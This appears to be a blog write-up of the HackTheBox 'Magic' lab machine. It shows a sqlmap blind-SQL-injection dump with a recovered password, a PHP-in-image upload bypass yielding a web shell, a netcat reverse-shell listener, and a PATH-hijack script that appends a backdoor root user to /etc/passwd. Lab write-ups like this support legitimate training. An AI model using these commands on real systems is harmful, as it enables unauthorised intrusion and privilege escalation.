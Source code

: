```yaml
---
title: "HTB: Magic Write-up"
date: 2021-05-12 00:00:00 -0000
categories:
  - HTB
tags:
  - HTB
  - linux
  - web
---
```


I decided to go back to Linux for my next challenge box from TJNull's [list of OSCP-like HackTheBox machines][htb-list]. This is also the first box from the list that HTB ranked "Medium" so it should bring a nice challenge.

## Phase 1: Enumeration
Step 1: Kick off [AutoRecon][autorecon]

```bash
$ autorecon -o magic --single-target 10.10.10.185 
```

From the quick `nmap` scan I can see that we have SSH and HTTP open.

```
[*] Found ssh on tcp/22 on target 10.10.10.185
[*] Found http on tcp/80 on target 10.10.10.185
```

I want to start testing on the web-server, but whenever I test a boot2root box I always do a quick check to make sure that the SSH service isn't using any [bad keys][bad-keys]. 

```bash
$ cd ~/tools/ssh-badkeys
$ grep -R "AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6" .
```

No bad keys here, so its time to look at the web server. `autorecon` will kick off some directory enumeration for us, but I always like to use a few different wordlists for better coverage. I'm going to kick off a `ffuf` scan to run while I review the `autorecon` output.

```bash
$ ffuf -u http://10.10.10.185/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -e .php,.html,.txt -of csv -o raft-large.csv
```

This run ended up identifying the same endpoints that the `autorecon` GoBuster run identified. The interesting ones were:

```
/login.php            (Status: 200) [Size: 4221]
/upload.php           (Status: 302) [Size: 2957] [--> login.php]
```

File upload functionality is usually ripe for exploitation because it is such a tricky thing to get right. Judging by the redirect, it looks like I have to be logged in to access it though, so lets take a look at the /login.php endpoint.

If I submit a normal request with an invalid login, I get an alert pop-up letting us know we submitted invalid credentials.

![](/assets/images/HTB/magic/login-reg.png)

However, if I submit an apostrophe in that the password field then I can see that the alert pop-up is gone.

![](/assets/images/HTB/magic/login-sqli.png)

This is clearly SQL injection, but I wasn't able to get any data back in-band from the host. I tried for about 30 minutes to exploit this SQLi manually, but after a bit of testing I confirmed my suspicions that this was a blind SQLi.

## Phase 2: Exploitation
Now that I know this is vulnerable to a blind SQL injection, I am going to use `sqlmap` to help me automate the table dumping process (because I can't be bothered to exploit blind SQLi manually). I'm using 8 threads to speed up the process.

```bash
$ sqlmap -r login.txt --dbms=mysql --threads=8 --batch -D Magic -T login --dump
```

```
Database: Magic
Table: login
[1 entry]
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
| 1  | admin    | Th3s3usW4sK1ng |
+----+----------+----------------+
```

Looks like I have some creds to try, and if I submit these through the web portal we can get access to the file upload functionality!

![](/assets/images/HTB/magic/auth.png)

This file upload was tricky to bypass, and took me some time to exploit. The usual tricks of using a `%00` in the filename, changing the MIME type, and using double extensions (.png.php) didn't work. I learned a useful methodology for testing file uploads from this box. First, proxy a file upload request and send it to repeater. Send it again in Repeater to make sure you can establish a baseline, then start testing some of the common checks against file uploads. For instance:
- Double extensions (with and without Null Byte)
- Changing MIME type or Magic bytes
- Embedding server-side code within an image
- Content-Type field

For this box the solution was to embed server-side code (in this case PHP) into an image and use a double extension (such as .php.jpg) to trick the application into rendering the page as PHP. The reason this worked is because the application was looking for image-specific magic byte strings at the beginning of uploaded files for it to pass its allowlisting.

![](/assets/images/HTB/magic/file-upload.png)

If I go back to the main page of the application, I can see a request for the http://10.10.10.185/images/uploads/exploit.php.jpg endpoint show up in the proxy history. Browsing to this page and supplying the `cmd` parameter results in command execution showing up in the application response.

![](/assets/images/HTB/magic/webshell.png)

From here I used `which` to determine what tools I had accessible in `www-data`'s PATH, which fortunately included `bash`. A simple `bash` reverse shell got me a remote access on the host.

```bash
$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.185] 35354
bash: cannot set terminal process group (1139): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/Magic/images/uploads$
```

## Phase 3: Privilege Escalation
Now that I have a shell on the box, the next step is to escalate privileges. A quick `cat /etc/passwd` shows that there is one non-standard user on this host 

```
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
```

Seems like this theseus is also a user on this machine... what are the odds he uses the same password from the web application.

```
www-data@ubuntu:/tmp$ su theseus
Password:
theseus@ubuntu:/tmp$
```

Sweet! Now that I have access to the user account, it is time to move onto getting root privileges. When I ran [AutoRecon][autorecon] something new stood out to me, there was a new SUID binary that I hadn't encountered before.

```
-rwsr-x--- 1 root    users            22K Oct 21  2019 /bin/sysinfo (Unknown SUID binary)
----------------------------------------------------------------------------------------
  --- Trying to execute /bin/sysinfo with strace in order to look for hijackable libraries...
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/usr/lib/x86_64-linux-gnu/libstdc++.so.6", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgcc_s.so.1", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libm.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, fdisk: cannot open /dev/loop0: Permission denied
```

AutoRecon had run `strace` on the binary to see what files it was opening, but that only revealed that it was trying to load some libraries from `/etc` that didn't exist. I ran `ltrace` on the binary to get some more information about what files and commands it may be using, specifically looking for the `popen()` function to look for command calls it may make. 

```bash
theseus@ubuntu:/tmp$ ltrace sysinfo
...
popen("fdisk -l", "r")
```

This call is interesting because the program doesn't specify the full path of the `fdisk` binary that it calls. This means that I can place an arbitrary `fdisk` executable file somewhere in the PATH before the intended `fdisk` executable, and have my file execute as root instead. My go-to for boot2root files is adding a backdoor root user with the password "secret". 

```bash
theseus@ubuntu:/tmp$ echo -e '#!/bin/bash
echo "root2:YcH.cwcRpCZW2:0:0:root:/root:/bin/bash" >> /etc/passwd' > fdisk
theseus@ubuntu:/tmp$ chmod +x fdisk
theseus@ubuntu:/tmp$ export PATH=/tmp:$PATH
```

We have placed our backdoor `fdisk` in `/tmp` and moved `/tmp` up to the front of our path, so all that is left to do is to execute `sysinfo` and see if it worked.

```bash
theseus@ubuntu:/tmp$ sysinfo
...
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
root2:YcH.cwcRpCZW2:0:0:root:/root:/bin/bash
```

Looks like it worked! Time to `su` into root and collect the flag.

```bash
theseus@ubuntu:/tmp$ su root2
Password:
root@ubuntu:/tmp# whoami
root
```

Overall this was a really interesting box. I learned a new way to bypass restrictive file upload filters, and a new strategy for exploiting unique SUID binaries. Thanks for reading!

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite